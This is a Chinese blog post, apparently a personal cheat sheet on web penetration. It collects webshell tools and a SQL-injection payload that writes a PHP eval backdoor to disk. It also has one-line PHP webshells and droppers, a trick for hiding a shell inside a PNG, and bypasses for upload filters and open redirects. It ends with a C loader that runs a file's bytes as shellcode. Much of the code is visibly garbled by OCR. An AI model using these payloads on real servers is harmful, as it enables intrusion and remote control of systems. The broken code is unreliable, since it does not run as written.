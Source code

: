 ```yaml
---
layout: post
title: web渗透思路
date: 2024-05-11 11:40:45
categories:
  - 网络安全
---
```


### 先搜有无历史漏洞

### 域名路径爆破

### SQL注入爆破

### 数据库报错注入

#### BurpSuite：请求代理工具

#### 御剑：域名爆破  dirsearch 域名爆破

#### WebShell请求管理工具 

c刀( cknife )https://github.com/Chora10/Cknife

![](https://img2.imgtp.com/2024/05/11/kxlt33kQ.png)

Weevely3https://github.com/epinna/weevely3   kali自带

中国蚁剑(AntSword )加载器:https://github.com/AntSwordProject/AntSword-Loader

![](https://img2.imgtp.com/2024/05/11/Hz6g6OI4.png)

冰蝎(Behinder)下载地址 : https://github.com/rebeyond/Behinder/

![](https://img2.imgtp.com/2024/05/11/qGErveNp.png)

使用介绍 :https://github.com/rebeyond/Behinder

#### 获取 php后台shell权限

```sql
paylodd:-123'un union ion selselectect1.2,3.4.0x3c3f70687020406576616c282451504153545b636d645d293b3f3e in intooutoutfilefile'ivar'www/htmlvuInlab/sqli/beecms/uploadizoneh.php'%23


0x3c3f70687020406576616c282451504153545b636d645d293b3f3e == <?php @eval(s_POST[cmd]);?>
```

![](https://img2.imgtp.com/2024/05/11/V6CVGIeN.png)

#### 获取权限条件

1. 要可以联合注入
2. mysql的配置secure-file-priv需要为空

#### 获取mysql路径

```sql
select @@datadir

return: E:\phpstudy\PHPutorial\MySQL\data
```

### 文件上传木马

#### 一句话马

```php
//php
<?php eval($ GET[pass]);?>
<?php eval($ POST[pass]);?>
<?php @$a = $_COOKIE[1];$b = '';$c = '';@assert($b.$a);?>
```

#### 小马

```php
<?php fputs(fopen("up.php","w"),'<?php eval($_POsT["cmd"])?>');?>
```

#### 大马

```php
<?php
$temp $ FILES['upload file']['tmp name'];$filebasename($ FILES['upload file']['name']);
if(empty ($file)){
	echo "<form action ='’ method =.'POST'.ENCTYPE='multipart/form-data'>\n";
	echo "Local file:<input type = 'file' name = 'upload file'>\n";
	echo "<input type = 'submit'value =,'Upload'>\n";
	echo "</form>\n<pre>\n\n</pre>";}else {if(move uploaded file($temp,$file)){echo "File 	uploaded successfully.<p>\n";}else {echo "Unable to upload "$file
}2
```

#### 图片中植入一句话马

```bash
copy a.png/b + a.php/a as.png
```



文件上传渗透技巧

> 假设只允许上传png后缀

```
%00 或者 0x00
#示例
test.php%00.png
test.php0x00.png
```

> 上传的png文件进行编译.htacess   （如果上传的文件修改了名称就失效了）

```
<FilesMatch "png">
SetHandler application/x-httpd-php
</FilesMatch>
```



>  url跳转有时候会做一些限制绕过

```
1.利用问号绕过限制
url=https://www.baidu.com?www.xxxx.me
2.利用@绕过限制
url=https://www.baidu.com@www.xxxx.me
3.利用斜杠反斜杠绕过限制
https://wwwlandgrey.me/redirect.php?url=http://www.evil.com/www.landgrey.me
4.利用#绕过限制
https://www.baidu.com#www.xxxx.me
5.利用子域名绕过
https://www.baidu.com.xxx.com
6.利用畸形ur绕过
https://landgrey.me/redirect.php?url=http://www.evil.coml.landgrey.me
7.利用跳转ip绕过
https://wwwipaddressguide.com/ip修改ip
8.利用xip.io绕过
http://www.qq.com.127.0.0.1.xip.io/
```



### WinHex：查看文件二进制工具

### 运行图片

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(void)
{
    FILE* fp;
    size_t size;
    unsigned char* buffer;
    fp = fopen("1.png","rb");
    fseek(fp,0,SEEK_END);
    size =ftell(fp);
    fseek(fp,0，SEEK_SET);
    buffer =(unsigned char*)malloc(size);
    fread(buffer,size,1,fp);
    void* exec = VirtualAlloc(O, size, MEM COMMIT,PAGE EXECUTE READWRITE);
    memcpy(exec,buffer,size);
    ((void(*)())exec)();
    return 0;
}
```

```bash
gcc loader.c -mwindows -o eryi.exe


backdoor
```

### 获取网站搭建信息渠道

```http
https://www.baidu.com/robots.txt

securitytrails.com

旁注查询 

phpAdmin页面

IP反查域名
```

### nmap 扫描端口

### Deep xss漏洞

### 漏洞推送：监控EXP POC  Server酱  GitHub

![image-20240516202254888](C:\Users\zengyu\AppData\Roaming\Typora\typora-user-images\image-20240516202254888.png)
